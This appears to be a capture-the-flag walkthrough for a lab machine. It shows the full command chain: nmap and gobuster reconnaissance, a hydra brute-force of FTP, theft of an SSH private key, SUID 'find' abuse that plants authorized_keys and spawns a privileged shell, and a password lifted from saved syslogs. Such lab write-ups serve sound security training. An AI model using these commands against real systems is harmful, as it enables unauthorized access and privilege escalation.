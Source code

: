 # Getting low user
- Navigate to IP address and see the web page. There we can find a user with name "low".
- With nmap, scan for the open ports and we can see that FTP is open on port 21, SSH on 22 and Apache on 80:
```
export $ip=192.168.10.10
sudo nmap -sC -sV -A -O -oN nmap/initial.log $ip -T4
```
- Go to port 80 and look around. We can't find anything useful. Try using gobuster:
```
gobuster -u http://$ip -w /opt/wordlist/medium.txt
```
- There, we find /archives. We find a wordlist named note_about_passwords.txt
- We can see that it lists passwords that maybe can be used to login to other service, like port 21 / ftp.
- Save the wordlists, for example to `~/wordlist.txt`
- try bruteforcing using hydra:
`hydra -l low -P ~/wordlist.txt $ip ftp`
- We find the password: `ahimsa`
- login to ftp using:
```
ftp -p $ip

enter the user as: low
enter the password as: ahimsa
```
- Navigate there and look around, we can get private key
```
cd files
get id_rsa
```
- Also, we can find reminder.txt which says that we need to escalate 3 times.
- SSH as low user:
```
ssh -i id_rsa low@$ip
```
- get the user flag:
```
cat /home/low/low.txt
```

# Escalate to medium
- As we are logged in as low user, we need to escalate our way to other user, in this case medium user.
- Let's find some common vulnerabillity: (like SUID bit files)
```
find / -type f -user medium -perm -4000 2>/dev/null
```
- We get that find is running with SUID Bit set, let's exploit this and get to user medium.
```
touch somefile
/usr/local/bin/find somefile -exec mkdir /home/medium/.ssh \;
/usr/local/bin/find somefile -exec cp /home/low/.ssh/authorized_keys /home/medium/.ssh/authorized_keys \;
```
- What we did was copy the authorized keys of user Low to user Medium's authorized_keys. This allows us to login as Medium via SSH with Low's private key. There's a reason for this, it's because we need to read syslog to escalate from medium user to high user. Being in group adm is needed in order to read syslog. However, if we simply run /bin/bash like: `/usr/local/bin/find somefile -exec /bin/bash -p \;`, our group won't be able to read syslog (Medium user is in syslog group, but running like this command won't make us part of adm group).
- Then what we do next is exit our ssh session and ssh again as user medium like this:
```
ssh medium@$ip -i id_rsa
```
- We are logged in as user medium.
- get the medium flag:
```
cat /home/medium/medium.txt
```

# Escalate to high
- Go to /var/saved:
```
cat /var/saved/syslog.saved
```
- Since we are talking about 3 idiots, I want to make it a twist to make it idiot (Not really, digging on logs is quite useful sometimes). There, we find a chat between user high and medium. In the chat, we can deduce that his password is IPm@nTh3F1ght3r-2020.
- Do this:
```
su high

enter IPm@nTh3F1ght3r-2020 as the password
```
- Get the flag:
```
cat /home/high/high.txt
```

